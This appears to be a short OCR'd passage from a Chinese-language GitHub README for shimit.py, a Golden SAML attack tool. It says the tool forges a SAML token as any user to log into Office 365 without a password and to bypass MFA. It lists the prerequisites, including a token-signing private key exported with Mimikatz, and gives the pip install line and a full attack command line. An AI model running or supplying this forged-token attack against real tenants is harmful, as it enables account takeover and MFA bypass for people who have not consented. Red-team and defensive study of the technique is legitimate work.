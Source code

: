 	使用提取的信息，该工具将生成一个伪造的 SAML 令牌作为任意用户，然后可用于在不知道该用户密码的情况下对 Office 365 进行身份验证。此攻击还绕过任何 MFA 要求
	要求：

	令牌签名私钥（使用 Mimikatz 从个人商店导出）
	IdP 公共证书
	IdP 名称
	角色名称（要承担的角色）
	>python -m pip install boto3 botocore defusedxml enum python_dateutil lxml signxml
	>python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
	-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012